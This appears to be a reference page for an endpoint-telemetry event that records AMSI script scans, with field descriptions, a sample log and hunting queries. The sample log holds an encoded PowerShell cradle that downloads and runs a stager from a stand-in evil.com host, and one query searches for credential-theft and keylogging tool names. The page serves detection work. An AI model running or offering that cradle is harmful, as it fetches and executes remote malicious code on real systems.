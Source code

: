 ## ScriptControlScanTelemetry Table: Script Execution Event

### 1. Table Name
**ScriptControlScanTelemetry**

---

### 2. Table Usage
This event is generated when a script is scanned by a script control engine, such as the Antimalware Scan Interface (AMSI) on Windows. It captures the content of scripts as they are being executed, which is invaluable for detecting fileless malware, obfuscated commands, and other malicious in-memory activities that might otherwise evade detection.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ImageFileName | The full path to the process hosting the script engine (e.g., `powershell.exe`, `wscript.exe`). | Windows Only |
| ParentImageFileName | The full path to the parent process that spawned the script host. | Windows Only |
| CommandLine | The command line of the script host process. | Windows Only |
| HostProcessType | The type of process hosting the script engine. | Windows Only |
| ScriptingLanguageId | An identifier for the scripting language being used (e.g., PowerShell, VBScript, JScript). | Windows Only |
| ScriptContentSource | The source of the script content (e.g., from the command line, a file, or interactive session). | Windows Only |
| ScriptContent | The full content of the script that was scanned. | Windows Only |
| ScriptContentBytes | The raw byte content of the script that was scanned. | Windows Only |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "ParentImageFileName": "C:\\Windows\\System32\\cmd.exe",
  "CommandLine": "powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB2AGkAbAAuAGMAbwBtAC8AcwB0AGEAZwBlAHIALgBwAHMAMQAnACkA",
  "HostProcessType": "1",
  "ScriptingLanguageId": "1",
  "ScriptContentSource": "2",
  "ScriptContent": "IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/stager.ps1](http://evil.com/stager.ps1)')",
  "ScriptContentBytes": "494558284e65772d4f626a656374204e65742e576562436c69656e74292e446f776e6c6f6164537472696e672827687474703a2f2f6576696c2e636f6d2f7374616765722e7073312729"
}
```

---

### 5. Example Queries

```xql
// Find all script control scan events
event_simpleName=ScriptControlScanTelemetry

// Hunt for scripts executed by PowerShell
event_simpleName=ScriptControlScanTelemetry ImageFileName="*\\powershell.exe"

// Find scripts where the parent process was something other than explorer.exe or cmd.exe
event_simpleName=ScriptControlScanTelemetry ParentImageFileName!="C:\\Windows\\explorer.exe" ParentImageFileName!="C:\\Windows\\System32\\cmd.exe"

// Search for suspicious keywords within the script content
event_simpleName=ScriptControlScanTelemetry ScriptContent="*DownloadString*" OR ScriptContent="*Invoke-Mimikatz*" OR ScriptContent="*Get-Keystrokes*"

// Find scripts that were passed via the command line (often obfuscated)
event_simpleName=ScriptControlScanTelemetry ScriptContentSource=2

// Look for JScript or VBScript execution, which is less common for legitimate admin tasks
event_simpleName=ScriptControlScanTelemetry ScriptingLanguageId IN (2, 3)
```
---
